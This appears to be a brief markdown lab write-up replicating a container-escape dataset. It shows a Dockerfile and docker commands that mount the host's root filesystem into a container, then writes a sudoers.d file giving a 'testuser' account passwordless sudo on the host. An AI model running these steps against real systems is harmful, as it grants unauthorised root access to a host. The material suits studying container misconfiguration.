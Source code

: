 # Host Execution

I attempted to replicate the following repository:
https://github.com/jpope8/container-escape-dataset/tree/main/containers

The first method which is using a ready container failed, but I will explain the second method:

## Method 2 - Creating an overprivileged docker image

Create a `Dockerfile` with the following content in a folder of choice:
```
FROM alpine
ENV WORKDIR /privesc
RUN mkdir -p $WORKDIR
VOLUME $WORKDIR
WORKDIR $WORKDIR
```

And then run the following:
`docker build -t priv-container .`

Now, we have a new image called `priv-container` that is malicious, and if given access, it has the capability of creating malicious files on the host machine.

We execute a container of the image we just created:

`docker run --name ESCAPE_PRIVESC -v /:/privesc -it priv-container /bin/sh`

and from within the container, we run 

`echo "testuser ALL=(ALL) NOPASSWD: ALL" > /privesc/etc/sudoers.d/010_testuser-nopasswd`

as an example attack. This script leads to creation of a file that overrides password protection and leads to the user account "testuser" (we assume that it exists and is a password-protected sudoer) to be accessible without password protection.

#vuln_attempt_done
